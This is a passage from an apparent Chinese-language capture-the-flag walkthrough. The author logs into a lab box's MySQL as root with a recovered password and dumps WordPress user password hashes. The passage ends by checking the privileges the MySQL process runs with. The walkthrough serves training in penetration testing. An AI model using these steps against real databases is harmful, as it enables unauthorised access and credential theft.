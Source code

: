 

<img src="https://gitee.com/xxb667/img/raw/master/img/image-20220301171823683.png" style="zoom:50%;" />

登录MySQL

登录mysql服务，进行信息搜集

```
mysql -uroot -pR@v3nSecurity
```

![image-20220301191000126](https://gitee.com/xxb667/img/raw/master/img/image-20220301191000126.png)

显示所有数据库信息

```
show databases;
```

![image-20220301191103546](https://gitee.com/xxb667/img/raw/master/img/image-20220301191103546.png)

查看wordpress数据库

```
use wordpress;
select version();
```

![image-20220301191507062](https://gitee.com/xxb667/img/raw/master/img/image-20220301191507062.png)

```
show tables;
select * form wp_users;
```

![image-20220301191807967](https://gitee.com/xxb667/img/raw/master/img/image-20220301191807967.png)

```
版本：mysql 5.5.60-0+deb8u1

数据库：wordpress

用户名：

michael $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0

steven $P$B6X3H3ykawf2oHuPsbjQiih5iJXqad.
```



查看mysql的运行权限

```
ps -aux|grep mysql
```

![image-20220301191948665](https://gitee.com/xxb667/img/raw/master/img/image-20220301191948665.png)
